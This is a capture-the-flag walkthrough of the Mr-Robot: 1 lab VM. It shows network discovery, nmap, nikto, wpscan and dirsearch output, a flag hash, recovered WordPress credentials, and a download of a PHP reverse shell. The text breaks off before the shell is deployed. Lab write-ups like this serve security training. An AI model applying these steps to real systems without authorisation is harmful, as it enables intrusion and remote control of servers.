#### Mr-Robot: 1

- [Attacker Info](#attacker-info)
- [Identify Victim](#identify-victim)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [Dirsearch](#dirsearch)
- [Reverse Shell](#reverse-shell)
- [Privilege Escalation](#privilege-escalation)

###### Attacker Info

```sh
root@kali:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.8  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:feb0:a919  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:b0:a9:19  txqueuelen 1000  (Ethernet)
        RX packets 12046  bytes 17813264 (16.9 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2985  bytes 204359 (199.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 20  bytes 1116 (1.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 20  bytes 1116 (1.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~#
```

###### Identify Victim

```sh
root@kali:~# netdiscover
 Currently scanning: 192.168.27.0/16   |   Screen View: Unique Hosts

 3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.1.1     a0:63:91:f0:cc:4b      1      60  NETGEAR
 192.168.1.5     f4:0f:24:33:5e:d1      1      60  Apple, Inc.
 192.168.1.7     00:0c:29:53:b4:93      1      60  VMware, Inc.

root@kali:~#
```

###### Nmap Scan

```sh
root@kali:~/mr-robot# nmap -sV -sC -oA robot.nmap 192.168.1.7 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-23 12:03 EDT
Nmap scan report for 192.168.1.7
Host is up (0.00067s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 00:0C:29:53:B4:93 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 121.06 seconds
root@kali:~/mr-robot#
```

###### Web Enumeration

```
http://192.168.1.7/
http://192.168.1.7/robots.txt
http://192.168.1.7/key-1-of-3.txt
http://192.168.1.7/fsocity.dic
```

```
073403c8a58a1f80d943455fb30724b9
```










```sh
root@kali:~/mr-robot# wc -l fsocity.dic
858160 fsocity.dic
root@kali:~/mr-robot#
root@kali:~/mr-robot# cat fsocity.dic | sort | uniq > fsociety_filtered.txt
root@kali:~/mr-robot#
root@kali:~/mr-robot# wc -l fsociety_filtered.txt
11451 fsociety_filtered.txt
root@kali:~/mr-robot#
```

```sh
root@kali:~/mr-robot# nikto -h http://192.168.1.7
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.7
+ Target Hostname:    192.168.1.7
+ Target Port:        80
+ Start Time:         2018-05-23 12:18:05 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/5.5.29
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server leaks inodes via ETags, header found with file /robots.txt, fields: 0x29 0x52467010ef8ad
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html, index.php
+ OSVDB-3092: /admin/: This might be interesting...
+ Uncommon header 'link' found, with contents: <http://192.168.1.7/?p=23>; rel=shortlink
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /admin/index.html: Admin login page/section found.
+ Cookie wordpress_test_cookie created without the httponly flag
+ /wp-login/: Admin login page/section found.
+ /wordpress/: A Wordpress installation was found.
+ /wp-admin/wp-login.php: Wordpress login found
+ /blog/wp-login.php: Wordpress login found
+ /wp-login.php: Wordpress login found
+ 7535 requests: 0 error(s) and 17 item(s) reported on remote host
+ End Time:           2018-05-23 12:22:34 (GMT-4) (269 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
root@kali:~/mr-robot#
```

```sh
root@kali:~/mr-robot# wpscan --url http://192.168.1.7 --enumerate u
_______________________________________________________________
        __          _______   _____
        \ \        / /  __ \ / ____|
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                       Version 2.9.3
          Sponsored by Sucuri - https://sucuri.net
   @_WPScan_, @ethicalhack3r, @erwan_lr, pvdl, @_FireFart_
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o [A]bort, default: [N]Y
[i] Updating the Database ...
[i] Update completed.
[+] URL: http://192.168.1.7/
[+] Started: Wed May 23 12:19:36 2018

[+] robots.txt available under: 'http://192.168.1.7/robots.txt'
[!] The WordPress 'http://192.168.1.7/readme.html' file exists exposing a version number
[+] Interesting header: SERVER: Apache
[+] Interesting header: X-FRAME-OPTIONS: SAMEORIGIN
[+] Interesting header: X-MOD-PAGESPEED: 1.9.32.3-4523
[+] XML-RPC Interface available under: http://192.168.1.7/xmlrpc.php

[+] WordPress version 4.3.16 (Released on 2018-04-03) identified from links opml

[+] Enumerating plugins from passive detection ...
[+] No plugins found

[+] Enumerating usernames ...
[+] We did not enumerate any usernames

[+] Finished: Wed May 23 12:19:56 2018
[+] Requests Done: 409
[+] Memory used: 13.504 MB
[+] Elapsed time: 00:00:20
root@kali:~/mr-robot#
```

###### Dirsearch

```sh
root@kali:~/mr-robot# git clone https://github.com/maurosoria/dirsearch.git /opt/dirsearch
Cloning into '/opt/dirsearch'...
remote: Counting objects: 1530, done.
remote: Total 1530 (delta 0), reused 0 (delta 0), pack-reused 1530
Receiving objects: 100% (1530/1530), 17.58 MiB | 7.28 MiB/s, done.
Resolving deltas: 100% (879/879), done.
root@kali:~/mr-robot#
```

```sh
root@kali:~/mr-robot# /opt/dirsearch/dirsearch.py -u http://192.168.1.7 -e php -x 301,302,403

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: php | Threads: 10 | Wordlist size: 5963

Error Log: /opt/dirsearch/logs/errors-18-05-23_12-17-12.log

Target: http://192.168.1.7

[12:17:12] Starting:
[12:17:38] 200 -    1KB - /admin/
[12:17:38] 200 -    1KB - /admin/?/login
[12:17:40] 200 -    1KB - /admin/index
[12:17:40] 200 -    1KB - /admin/index.html
[12:18:30] 200 -    0B  - /favicon.ico
[12:18:40] 200 -    1KB - /index.html
[12:18:42] 200 -  504KB - /intro
[12:18:46] 200 -   19KB - /license.txt
[12:19:15] 200 -   10KB - /readme
[12:19:15] 200 -   10KB - /readme.html
[12:19:17] 200 -   41B  - /robots.txt
[12:19:24] 200 -    0B  - /sitemap
[12:19:24] 200 -    0B  - /sitemap.xml
[12:19:24] 200 -    0B  - /sitemap.xml.gz
[12:19:47] 500 -    3KB - /wp-admin/setup-config.php
[12:19:47] 200 -    0B  - /wp-config.php
[12:19:47] 200 -    0B  - /wp-content/
[12:19:47] 500 -    0B  - /wp-includes/rss-functions.php
[12:19:47] 200 -    0B  - /wp-content/plugins/google-sitemap-generator/sitemap-core.php
[12:19:47] 200 -    3KB - /wp-login
[12:19:47] 200 -    3KB - /wp-login.php
[12:19:47] 200 -    3KB - /wp-login/
[12:19:49] 405 -   42B  - /xmlrpc.php

Task Completed
root@kali:~/mr-robot#
```


















```
Username: elliot
Password: ER28-0652
```

###### Reverse Shell

```sh
➜  Downloads wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz
--2018-05-23 10:08:26--  http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz
Resolving pentestmonkey.net (pentestmonkey.net)... 213.165.242.10
Connecting to pentestmonkey.net (pentestmonkey.net)|213.165.242.10|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9018 (8.8K) [application/x-gzip]
Saving to: ‘php-reverse-shell-1.0.tar.gz’

php-reverse-shell-1.0.tar.gz                       100%[================================================================================================================>]   8.81K  --.-KB/s    in 0s

2018-05-23 10:08:26 (38.2 MB/s) - ‘php-reverse-shell-1.0.tar.gz’ saved [9018/9018]

➜  Downloads
```

```sh
➜  Downloads tar xvzf php-reverse-shell-1.0.tar.gz
x php-reverse-shell-1.0/
x php-reverse-shell-1.0/COPYING.GPL
x php-reverse-shell-1.0/COPYING.PHP-REVERSE-SHELL
x php-reverse-shell-1.0/php-reverse-shell.php
x php-reverse-shell-1.0/CHANGELOG
➜  Downloads
```

```sh
➜  Downloads cd php-reverse-shell-1.0
➜  php-reverse-shell-1.0 ls -lah
total 72
drwx------   6 kan1shka9  staff   192B May 26  2007 .
drwx------+ 17 kan1shka9  staff   544B May 23 10:08 ..
-rw-------   1 kan1shka9  staff    62B May 26  2007 CHANGELOG
-rw-------   1 kan1shka9  staff    18K May 26  2007 COPYING.GPL
